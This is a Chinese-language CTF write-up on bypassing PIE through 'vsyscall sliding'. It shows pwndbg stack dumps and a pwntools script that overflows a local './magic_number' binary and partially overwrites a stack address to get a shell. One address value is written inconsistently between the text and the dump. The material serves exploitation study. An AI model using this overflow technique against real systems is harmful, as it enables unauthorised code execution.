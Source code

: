 # ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1628583654011-fe0cd91b-f7e9-4add-b204-37487051c9c2.png)vsyscall滑动（PIE）
相较于没有开PIE的情况而言，开了PIE的情况就有点稍微复杂了，为了方便说明在part1中仍关闭系统的ALSR，后续part中开启。

**在这里补充一下，vsyscall滑动的核心思想是利用了栈上的残留信息来bypass PIE。**

## Part1[ALSR 0]
地址随机化有一个致命的缺陷，在随机化之后地址的后12bit是不会发生变化的，所以我们可以覆盖一个和system“长的很像”（只有低8bit不同）的地址，将其低一位篡改为system，再使用vsyscall滑动的那里即可拿到shell。

```python
pwndbg> x/20gx 0x7fffffffe1b0
0x7fffffffe1b0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1c0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1d0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1e0: 0x6161616161616161      0x00007ffff7a03bf7
    									#返回地址
0x7fffffffe1f0: 0x0000000000000001      0x00007fffffffe2c8
0x7fffffffe200: 0x0000000100008000      0x0000555555554a80
    									#main_start_addr（main起始地址）
0x7fffffffe210: 0x0000000000000000      0x3a60c97119fb3eba
0x7fffffffe220: 0x0000555555554870      0x00007fffffffe2c0
0x7fffffffe230: 0x0000000000000000      0x0000000000000000
0x7fffffffe240: 0x6f359c244ffb3eba      0x6f358c9bfb453eba
pwndbg> 
```

考虑到main_start_addr（0x0000555555554a80）与system的地址（0x0000555555554a8）“长的很像”，溢出之后使用vsyscall指令滑到此处即可拿shell：

```python
pwndbg> x/20gx 0x7fffffffe1b0
0x7fffffffe1b0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1c0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1d0: 0x6161616161616161      0x6161616161616161
0x7fffffffe1e0: 0x6161616161616161      &vsyscall
    									#返回地址
0x7fffffffe1f0: &vsyscall               &vsyscall
0x7fffffffe200: &vsyscall		        0x00005555555554a8
    									#system
0x7fffffffe210: 0x0000000000000000      0x3a60c97119fb3eba
0x7fffffffe220: 0x0000555555554870      0x00007fffffffe2c0
0x7fffffffe230: 0x0000000000000000      0x0000000000000000
0x7fffffffe240: 0x6f359c244ffb3eba      0x6f358c9bfb453eba
pwndbg> 
```

```python
#coding=utf-8
from pwn import *
context.terminal = ['tmux','splitw','-h']
p=process("./magic_number")
vsyscall_start_addr=0xffffffffff600000
payload="a"*0x38+p64(vsyscall_start_addr)*4+'\xa8'
p.recvuntil('Your Input :\n')
#gdb.attach(proc.pidof(p)[0],gdbscript="b *$rebase(0xAE0)")
p.send(payload)
p.interactive()
```
